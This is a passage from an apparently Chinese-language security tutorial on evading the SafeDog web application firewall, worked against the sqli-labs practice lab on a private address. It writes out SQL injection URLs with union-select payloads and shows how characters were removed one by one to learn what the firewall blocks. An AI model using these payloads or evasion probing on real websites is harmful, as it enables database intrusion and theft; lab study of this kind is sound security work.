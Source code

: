 测试链接

> http://192.168.186.129/sqli-labs/Less-1/

可以看到拦截页面

![可以看到拦截页面](./../../../../images/SQL%20%E6%B3%A8%E5%85%A5%E5%85%8D%E6%9D%80/%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E6%8B%A6%E6%88%AA%E9%A1%B5%E9%9D%A2.png)

### 1.1 旧版本的安全狗绕过

### 1.1.1 判断拦截字符

HackBar 注入

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

逐个删除提交的字符，直到不拦截

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union selec
```

在 union 和 select 之间加任意字符，查看是否拦截

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union !@# select
```

> 发现提交 # 时不拦截，但是 # 将 select 注释掉了，因此只提交 union 是不拦截的

综合以上判断，拦截条件为 union 和 select 同时存在

### 1.1.2 条件注释绕过
